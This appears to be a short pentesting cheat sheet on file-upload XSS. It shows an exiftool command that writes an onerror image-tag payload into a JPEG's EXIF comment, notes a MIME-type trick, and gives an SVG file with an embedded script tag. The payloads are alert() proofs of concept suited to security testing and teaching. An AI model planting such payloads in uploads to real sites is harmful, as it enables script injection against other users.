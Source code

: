 #### Command line tool used to edit and view exif meta tags
---

https://exiftool.org/install.html

First create a `.jpg` template:
```shell
convert -size 32x32 xc:blue xss.jpg
```

If upload metadata is displayed, the following can be used as a #XSS payload:

```shell
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' xss.jpg
exiftool xss.jpg
```

 If we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

---

XSS attacks can also be carried with `SVG` images, along with several other attacks. `Scalable Vector Graphics (SVG)` images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload. For example, we can write the following to `xxs.svg`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```


